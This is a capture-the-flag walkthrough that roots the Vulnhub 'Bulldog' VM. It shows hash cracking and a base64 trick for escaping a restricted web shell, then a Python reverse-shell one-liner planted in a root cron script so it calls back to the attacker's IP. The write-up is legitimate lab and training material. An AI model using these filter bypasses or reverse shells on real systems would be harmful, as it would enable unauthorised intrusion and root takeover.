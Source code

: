 <b>VM name:</b> 
Bulldog

<b>Objective:</b>
Get root!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogIP.png">

After loading this VM up in VirtualBox, it gives us the box's IP, so no real need to do an arp-scan to find out our target address.
So, first things first, let's run an Nmap scan to see what ports and services are available!
(*Please note that I worked on this VM and write-up from two different locations, so the DHCP IP address will appear different in certain screenshots. There are also times I switch back and forth between my Kali box and my Ubuntu box)

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_nmapscan.png">

It seems they are running SSH on port 23 (it's not running as telnet), and there is some web activity on 80 and 8080. Exploring the web stuff first, I confirmed that both 80 and 8080 are just mirrors of each other and couldn't find any differences. We are first greeted with this landing page. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldoglanding.png">

The initial page doesn't offer much other than info that they've been breached. The source code didn't have anything interesting either--nor did the link to the Notice page. So, perhaps something is hiding on this domain somewhere. First thing I looked at: robots.txt. But it was a troll.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_robots.png">

Time to load up Sparta and see if it can detect anything interesting to explore.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_spartaresults.png">

Hmm, this looks good. A dev page! 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_dev.png">

Nice, a system overhaul to make it more secure. But is it really? There's a bunch of info on employees here which could be useful. Clicking on the web-shell, it seems we need authentication to proceed. What to do, what to do...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshell.png">

Let's check the source code for the /dev page. Sure enough we find something interesting!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_devhashes.png">

Those are SHA-1 hashes, so let's run em in a decoder to see if we can get any plaintext passwords. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_sha1decrypt.png">

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcreds.png">

Nice! We have two results, which gives us a pair of credentials for something. But for what? I immediately tried the credentials on the SSH port, but no luck there, so there must be something else. Is there an admin page hiding? Yep!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogadmin.png">

Logging in with Nick's credentials, we can then access the web-shell as we are authenticated.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_django_nicklogin.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshellloggedin.png">

Neat. As the text on the /dev page mentioned, this is a shell interface, but it looks like we are limited only to a couple of commands. Semi-colon doesn't work to escape, and we get a message busting us! However, there are more ways than just that to escape. Can we trick it by passing all of our commands through base64? Let's test it with the following:

echo 'whoami'|base64|base64 -d|sh

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/echotest.png">

Sweet, it works. Now we can fully interact with the shell and pass whatever commands we like. While we don't need to pass it through base64, let's see if there is anything interesting in the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_etcpasswd.png">

Not too much here, but let's explore some other directories and files that you can usually bet on having something good. Next stop is /etc/cron.d!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcron.png">

Running cat on each of these files, runAV contained something suspicious and worth checking out--a hidden directory with an application.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenscript.png">

Awesome--so this means that this application is run AS ROOT every minute. Let's cat the contents.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenPYTHON.png">

You dun messed up Alan! Now we have a vector for getting a reverse shell and potentially even more (priviledge escalation!). Since this is already set as a python script, we can echo in python code to this file to get a reverse shell up.
Pentest Monkey's Reverse Shell Cheatsheet is a good resource for reverse shell information, and we can utilize the following Python reverse shell code:

'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR IP ADDRESS",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Let's setup a listening port with netcat on our machine, and then add the code to the application using our web-shell.
Remember, however, we can't use any semi-colons since they will be detected, so instead, we need to split this up line by line. A little tedious, but it will be worth it if it works.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/listening.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/pythoncode.png">

Now we just wait a minute annnnnnnnnd...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/congrats.png">

Amazing! We are in AND we are also root since it executed under root! 

Now, I know that we are alread root and our primary objective is done... but the box is challenging us with another way to get root, and I'm not one to turn down a challenge! Time to explore all the files and see if there is anything in here that is interesting.

Checking out the home folder we find the Bulldogadmin user we knew existed from the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddendirectory.png">

Seriously, what is with this company and hidden directories and prefacing them as 'hidden'--kind of a dead giveaway, no? 
At least name it 'garbage'! :P

In the hidden directory we find an app (customPermissionApp) and a note...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddennote.png">

Thanks Ashley! But unfortunately we can't run it. Perhaps, however, there is something useful we can find by running strings on the executable?

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/permissiondenied_strings.png">

'SUPERultimatePASSWORDyouCANTget'

Winner, winner, chicken dinner! That looks like it could definitely be a password when put together (and it says it's a password!), unless we are getting super trolled. While I did not attempt to gain access through different means, I am certain that if the box can be accessed with a different user, we can use this password to gain root priviledges via 'sudo su'.

Seems like Bulldog Industries still has a ways to go before they are safe from breaches!
